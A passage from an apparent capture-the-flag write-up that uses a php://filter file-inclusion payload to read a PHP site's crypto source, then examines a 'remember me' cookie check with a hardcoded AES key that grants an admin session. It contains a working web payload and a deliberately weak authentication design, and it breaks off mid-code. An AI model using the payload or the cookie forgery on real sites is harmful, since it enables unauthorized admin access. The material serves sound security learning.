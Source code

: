 We also have the code that validate the "remember me" cookie and the login validation itself. We know the admin email address and that the password is stored in an environment variable. We'll get back to this later.

# Flag 3

Let's go back to the source of login.php. 

The website does validate a "remember me" cookie :

```php
// Validate Remember Me
if(isset($_COOKIE["remember_me"])) {
    if ($remember_me = validate_remember_me_cookie($_COOKIE["remember_me"])) {
        $_SESSION["admin"] = true;
        $_SESSION["username"] = "admin";
        header("Location: /admin/index.php");
        exit();
    }
}
```

What this piece of code do is look for a cookie named "remember_me" and calls a function named "validate_remember_me_cookie". If the cookie is validated, the user's session is set to admin.

We can see in the source that it includes lib/crypto.php. Let's follow that trail and look at this one

*/post.php?postid=php://filter/convert.base64-encode/resource=admin/lib/crypto.php*

This one is interesting :

```php
<?php

$key = "5UP3R_S3CURE,K3Y";
$cipher="AES-128-CBC";

function generate_remember_me_cookie($username, $admin) {
    $iv = substr(md5(mt_rand()), 0, 16);
    $t = time() + (3600 * 24 * 365);
    $data = $username . "|" . $t . "|" . $admin;
    return base64_encode(encrypt($data, $iv) . "|" . $iv);
}

function validate_remember_me_cookie($cookie) {
    global $key, $cipher;
    try {
        $cookie_expended = explode("|", base64_decode($cookie));
        $decrypted_cookie = decrypt($cookie_expended[0], $cookie_expended[1]);
        
        if(!$decrypted_cookie) {
            return false;
        }

        $exp_d_cookie = explode("|", $decrypted_cookie);
        
        if ($exp_d_cookie[1] < time()) {
            return false;
        }
        // TODO: Ajouter des comptes user
        if ($exp_d_cookie[2] != "1") {
            return false;
        }
    } catch (Exception $e) {
        throw $e;
        return false;
```